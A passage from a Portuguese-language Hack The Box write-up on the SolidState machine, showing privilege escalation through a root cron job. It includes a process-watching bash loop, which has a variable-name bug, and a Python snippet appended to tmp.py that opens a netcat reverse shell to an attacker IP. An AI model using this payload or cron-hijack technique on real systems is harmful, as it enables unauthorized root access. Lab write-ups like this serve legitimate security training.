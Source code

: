 ```
![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-solidstate/S_pspy.png)

Passamos para máquina e executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-solidstate/S_pspy1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-solidstate/S_pspy2.png)

Verificamos que tem uma cronjob sim de root!

### 2º Script Manual

Com esse script simples, manual, podemos também verificar quais processos estão sendo executados como root

```
IFS=$'\n'
op=$(ps -eo command)
while true; do
    novo_processo=$(ps -eo command)
    diff <(echo "$op") <(echo "$np")
    sleep .2
    op=$np
done
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-solidstate/S_proc.png)

Executamos, esperamos e ai está

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-solidstate/S_proc1.png)

## Explorando o tmp.py

Agora ficou fácil de conseguirmos um shell de root

Acrescentamos no tmp.py o seguinte código:

```
#!/usr/bin/env python
import os
import sys
try:
     os.system('/bin/nc -e /bin/bash 10.10.16.119 443')
except:
     sys.exit()
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-solidstate/S_tmp1.png)

Ligamos o Listener, esperamos 3 minutos e somos root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-solidstate/S_tmp2.png)

## Pegamos flag de user e root

```